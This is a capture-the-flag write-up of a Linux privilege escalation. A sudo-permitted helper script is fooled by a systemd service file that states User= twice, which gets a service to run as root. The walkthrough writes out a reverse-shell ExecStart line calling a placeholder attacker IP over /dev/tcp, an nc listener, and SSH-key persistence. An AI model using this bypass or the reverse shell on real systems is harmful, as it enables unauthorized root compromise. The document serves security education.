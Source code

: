 # OMM API root
*Disclaimer: We solved this challenge after the CTF had ended. During the ctf we got to the very last step trying to bypass the if-check.*

<p align="center">
    <img src="img/omm_api_root_chall.png" alt="Challenge" width="500"/>
</p>

We currently have shell as the `f_omm_app` user. In the `OMM API user` challenge we got a reverse shell, which we now have upgraded to a ssh-shell by adding our ssh-publickey to `/home/f_omm_app/.ssh/authorized_keys`.
```
f_omm_app@ip-10-128-3-164:~$ id
uid=1002(f_omm_app) gid=1003(f_omm_app) groups=1003(f_omm_app),1001(hpc_users_rd)
```

`f_omm_app` have sudo permissions on the box, but only for certain commmands.
```
f_omm_app@ip-10-128-3-164:~$ sudo -l
Matching Defaults entries for f_omm_app on ip-10-128-3-164:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin\:/opt/pbs/bin, use_pty

User f_omm_app may run the following commands on ip-10-128-3-164:
    (ALL : ALL) NOPASSWD: /opt/pbs/bin/qsub, /opt/pbs/bin/qdel, /prog/util/sbin/appsysctladd, /usr/bin/systemctl restart *
```

The first two scripts, `/opt/pbs/bin/qsub` and `/opt/pbs/bin/qdel` doesn't do much.
```
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qsub
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
f_omm_app@ip-10-128-3-164:~$ cat /opt/pbs/bin/qdel
#!/bin/sh
# This is just mocked handling for this CTF. This is not the file you're looking for"
echo "OK"
```

The command `/usr/bin/systemctl restart *` allows us to restart the systemctl services, but does not turn out to be very useful for us.

[/prog/util/sbin/appsysctladd](./appsysctladd.sh) is the most interesting script that we can run.
`appsysctladd` is a bash script which takes one or more directories as arguments. For each directory-argument given it searches for the directory `$HOSTNAME` and starts each `.service` file as a `systemctl` service. This means that if we create a service file with `User=root` the created service should execute our defined command as `root`!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ ls
eic-hostkey-MGy07Txb  ip-10-128-3-164

f_omm_app@ip-10-128-3-164:/dev/shm$ ls ip-10-128-3-164/
test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=root

[Install]
WantedBy=multi-user.target
```

```
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: /dev/shm/ip-10-128-3-164/test.service was rejected. User and Group must match file user and group
```

Unfortunately, that would be too easy. Looking closer into the `/prog/util/sbin/appsysctladd` script we can see the following check:
```
U=$( stat -c '%U' "${SRV}" )
G=$( stat -c '%G' "${SRV}" )

if egrep -q "^User=${U}$" "${SRV}" && egrep -q "^Group=${G}$" "${SRV}"
then
    SRVNAME=$( basename "${SRV}" )
    echo "$PROG: Setting up systemd service from ${SRV}"
    install -g root -o root -m 644 "${SRV}" "${SYSTEMD}/${SRVNAME}" && \
    systemctl daemon-reload && \
    systemctl start "${SRVNAME}" && \
    systemctl enable "${SRVNAME}"
else
    echo "$PROG: ${SRV} was rejected. User and Group must match file user and group"
fi
```

The script gets the username and group of the owner of the file, and checks that it match the `User` and `Group` the service is set to run as. This check is however not bulletproff, as it only checks if `User=f_omm_app` and `Group=f_omm_app` *exist* in the service file. So what happens if the service file contains the following?
```¨
User=f_omm_app
Group=f_omm_app
User=root
```

Turns out, when a field is set *twice* it is the *latest* occurrence of the field that takes precedence. Thus, we can bypass the if-check in the `appsysctladd` script by including `User=f_omm_app`, but then set `User=root` afterwards to make the service execute as root.
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "id > /tmp/output"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target

f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service

f_omm_app@ip-10-128-3-164:/dev/shm$ cat /tmp/output
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
```

With this knowledge, we can swap out the `ExecStart` POC with a reverse shell to get root, and the flag!
```
f_omm_app@ip-10-128-3-164:/dev/shm$ cat ip-10-128-3-164/test.service
[Service]
Type=simple
ExecStart=/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"
User=f_omm_app
Group=f_omm_app
User=root

[Install]
WantedBy=multi-user.target
f_omm_app@ip-10-128-3-164:/dev/shm$ sudo /prog/util/sbin/appsysctladd /dev/shm
appsysctladd: Looking up systemctl services for  under /dev/shm
appsysctladd: Setting up systemd service from /dev/shm/ip-10-128-3-164/test.service
```

```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.128.1.12] from (UNKNOWN) [10.128.3.164] 54920
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=1003(f_omm_app) groups=1003(f_omm_app)
# cat /root/root.txt
EPT{PR1V35C_15_700_345Y_F0R_Y0U_GJ_WP!}
```
